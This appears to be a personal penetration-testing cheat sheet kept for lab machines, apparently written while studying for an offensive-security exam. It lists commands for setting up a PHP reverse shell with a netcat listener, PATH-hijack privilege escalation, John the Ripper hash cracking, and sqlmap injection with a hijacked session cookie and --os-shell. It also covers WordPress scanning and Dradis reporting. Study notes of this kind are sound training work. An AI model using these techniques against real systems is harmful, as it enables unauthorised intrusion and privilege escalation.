 !---DirSearch
	git clone https://github.com/maurosoria/dirsearch.git
	python3 dirsearch.py -u http://10.10.10.28 -e php
	
!---PHP Reverse Shell
	git clone https://github.com/pentestmonkey/php-reverse-shell
	#Modify file, change IP and port
	#Run NetCat
		sudo nc -l -p <port>
	
!---Relative Path Exploitation
	#If a program calls something from a relative location (doesn't specify the full path), you can exploit this by adding your current directory at the beginning of the path, then creating a script with the name of the program being called and put anything in it, such as /bin/bash or /bin/sh
	#Combined with SUID, this will allow you to get a shell as the user owner of the program
		PATH=./:$PATH
		echo '/bin/bash' > fakeprog
		chmod +x fakeprog

!---File enumeration
	#Search for files by group
		find / -type f -group <groupname> 2>/dev/null
			#/ #start in root
			#-type f #look for files
			#-group <groupname> #match any belonging to this group
			#2>/dev/null #send all error output to null instead of terminal

!---FTP commands
	#Switch to passive mode when only port 21 is allowed.  Use the command again for active mode
		passive
	
!---Password Bruteforce: John the Ripper
	#Extract the password has value from the file and store it to a file (called 'hashfile' here)
		zip2john <filename> > <hashfile>
	#Crack the password using the hash value in the file using a given dictionary file
		john <hashfile> --fork=4 -w=<dictionary>
			#--fork=4 #This tells it to use multiple processor cores (4 cores)
			#-w=<dictionary> #Specifies the dictionary file to use
	#See the results of the bruteforce for a given password protected file (not the hash file)
		john --show <filename>

!---SQL Injection Attacks
	#Scan a site for possible SQL injection vulnerabilities.  Requires a user-input URL
	sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=tp7g32eags5eia4ucfvkekrj8j"
		#-u 'http://10.10.10.46/dashboard.php?search=a' #This is the URL of a submission form where a SQL injection attack may occur.  It must include the user specifiable parameter in it with valid input
		#--cookie="PHPSESSID=tp7g32eags5eia4ucfvkekrj8j" #This is used to specify the session ID for an admin user that I obtained by logging in as the admin and was gathered from Burpsuite.
	
	sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=tp7g32eags5eia4ucfvkekrj8j" --os-shell

!---Wordpress Scanning
	#Install Wordpress Scanner
		git clone https://github.com/m4ll0k/WPSeku.git wpseku
		cd wpseku
		sudo pip3 install -r requirements.txt
	#Run scan
		python3 wpseku -u http://<URL>
		
!---Windows Exploits
	Juicy Potato - https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
	
	/home/coyote/Tools/juicy-potato

!---Dradis Setup
	sudo apt install dradis
	#Start app
	sudo dradis
	#Download templates from https://dradisframework.com/academy/industry/compliance/oscp/index.html
		Path to templates: /usr/lib/dradis/templates/notes/
		#Follow instructions to import as needed (I did Full Project Export, HTML Template, and Note Templates)
	Nodes
		Basically function like folders
	Notes
		Literally notes, these are not included on the exported report.  Good for noting things to circle back on
	Vulnerabilities
		Divided into two categories:
			Issues - These are the vulnerability listings.  This is general, not tied to a specific machine
				Evidence - These are instances of an issue, with specific IP's, ports, method of access, etc
					If a host has the same issue on multiple ports, each of those ports is separate evidence
	You need to keep spaces above the section headers for them to be read by the app properly

!---Timezone on Kali
	Use timedatectl:
		timedatectl list-timezones
		sudo timedatectl set-timezone <timezone>
